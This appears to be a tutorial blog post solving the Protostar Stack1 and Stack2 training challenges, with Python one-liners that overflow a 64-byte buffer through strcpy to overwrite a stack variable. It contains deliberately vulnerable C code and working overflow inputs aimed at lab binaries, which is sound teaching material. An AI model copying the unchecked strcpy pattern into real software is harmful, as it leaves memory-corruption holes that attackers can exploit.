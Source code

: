 ```yaml
---
layout: post
title: Buffer Overflow Examples, Overwriting a variable value on the stack - Protostar Stack1 , Stack2
categories: binary-exploitation
tags: [linux, binary-exploitation, buffer-overflow, c]
description: 2nd binary-exploitation post where I Overwrite a variable value by exploiting a buffer overflow. (x32)
image: binary-exploitation/BOF2/0.png
redirect_from: "/BinaryExploitation-BOF2/"
---
```


<hr>
## Introduction 
<br> So last week I talked about buffer overflows and solved Protostar Stack0. Today I'm gonna solve Stack1 and Stack2, they are not different from Stack0 in their objective which is changing a variable's value , but they are different in the way of changing that variable for sure. With that being said let's jump right in !
![](/images/binary-exploitation/BOF2/0.png)
<br> If you haven't read my previous [post](/BinaryExploitation-BOF/) yet I recommend reading it before this.
<br>
<hr>
## Stack1
<br> For this challenge we got this code : 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];

 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }

 modified = 0;
 strcpy(buffer, argv[1]);

 if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
}
```
<hr>
### Breakdown
<br> So this code :
<br> creates a variable called "modified" and assigns a buffer of 64 chars to it.
```
volatile int modified; 
char buffer[64];
``` 
<br>
<br> Checks if we supplied an argument or not.
```
 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }
```
<br>
<br> Sets the value of the "modified" variable into 0 , then it copies whatever we give it `argv[1]` into the buffer of "modified".
```
modified = 0;
strcpy(buffer, argv[1]);
```
<br>
<br> Then it checks if the variable's value is `0x61626364` or not
```
if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
```
<br>
<hr>
## Solution
<br> So it's similar to Stack0 except we need to set the value of the variable into a specific value which is `0x61626364` in this case. This is the hexadecimal value of "dcba" now keep in mind that when reading hex you read it from right to left not left to right. To slove this our input will be 64 chars then after that the value , let's try it.
<br> Let's execute stack1 
![](/images/binary-exploitation/BOF2/1.png)
<br> We get please specify an argument so let's enter anything.
![](/images/binary-exploitation/BOF2/2.png)
<br>
<br>
<br>
![](/images/binary-exploitation/BOF2/3.png)
<br> We get try again you got 0x00000000 , Let's try to change that by exceeding the buffer and entering any char for example "b"
```
./stack1 `python -c "print ('A' * 64 + 'b')"`
```
![](/images/binary-exploitation/BOF2/4.png)
<br> And we see that the value changed to 0x00000062 which is the hex value of "b" so our exploit is working, Let's apply that.
```
./stack1 `python -c "print ('A' * 64 + 'dcba')"`
```
![](/images/binary-exploitation/BOF2/5.png)
<br> And we did it ! 
<br> But can we do it in another way ? instead of entering ASCII we can use the hex values and python will translate them.
```
./stack1 `python -c "print('A' * 64 + '\x64\x63\x62\x61')"`
```
![](/images/binary-exploitation/BOF2/6.png)
<br>
<hr>
## Stack2
<br> For this challenge we got this code :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];
 char *variable;

 variable = getenv("GREENIE");

 if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }

 modified = 0;

 strcpy(buffer, variable);

 if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }

}
```
<br>
<hr>
### Breakdown 
<br> This code :
<br> As always creates a variable called "modified" and assigns a buffer of 64 chars to it 
```
volatile int modified;
char buffer[64];
```
<br>
<br> The new thing here is a variable called "variable" which gets its value from an environment variable called "GREENIE". 
```
variable = getenv("GREENIE");
```
<br>
<br> The program checks if the variable "variable" has a value or not 
```
if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }
```
<br>
<br> Sets the value of modified to 0
```
modified = 0;
```
<br>
<br> Then it copies the value of "variable" into the buffer of "modified"
```
strcpy(buffer, variable);
```
<br>
<br> After that it checks if the value of "modified" is `0x0d0a0d0a` or not
```
if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
```
<hr>
## Solution 
<br> So this time we can't specify the value directly instead of that we have to do it through an environment variable. And this is actually a good example that shows the importance of being creative with your exploits , you won't face the same situation every time so you have to come up with an exploit that fits with the application's functionality.
<br> In this situation we can apply our usual exploit and store that value into the environment variable "GREENIE".
<br> But wait a minute , what is an environment variable ?
<hr>
### Environment Variables
<br> Simply , Environment variables are variables that are being used to store values of some stuff that the system uses also the services can access those variables. For a better demonstration let's see an example.
<br> If we take the environment variable BASH and look at it :
![](/images/binary-exploitation/BOF2/7.png)
<br> We see that its value is : /bin/bash
<br> So for example if I want to run bash I type bash in the terminal instead of `./bin/bash` because the system calls the variable BASH and finds its path.
<br> But the system won't store a variable for every binary that exists on the system so there's an environment variable called PATH which has all the possible dirs that could contain bins, So when you type for example : python, it searches in those dirs then executes python 
![](/images/binary-exploitation/BOF2/8.png)
<br> So you get the idea. Understanding environment variables is not necessary for this challenge but I wanted to talk about it just to make everything clear for anyone.
<br> [More about environment variables](https://en.wikipedia.org/wiki/Environment_variable)
<br>
<hr>
<br> Now let's execute stack2
![](/images/binary-exploitation/BOF2/9.png)
<br> We get Please set the GREENIE environment variable.
<br> There's no environment variable called GREENIE so we need to create it. We will make it's value equal to 64 chars then `0x0d0a0d0a`
<br> This time we won't be able to use the value in ASCII like we did with stack1 because `0x0d` is a return `\r` and `0x0a` is a new line `\n` and we can't type those so we will use the hex values and python will translate them.
```
GREENIE = `python -c "print ('A' * 64 + '\x0a\x0d\x0a\x0d')"`
```
![](/images/binary-exploitation/BOF2/10.png)
<br> When we look at it we only see the 64 A's and that's because we can't see the new line or the return
<br> Now we need to export it to the environment variables list then we are good to go. 
```
export GREENIE
./stack2
```
![](/images/binary-exploitation/BOF2/11.png)
<br> And we did it ! 
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Binary Exploitation article : [Binary Exploitation - Buffer Overflow Explained in Detail](/binary-exploitation/bof1/)
<br> Next Binary Exploitation article : [Buffer Overflow Examples, Overwriting a function pointer - protostar stack3](/binary-exploitation/bof3/)
<hr>
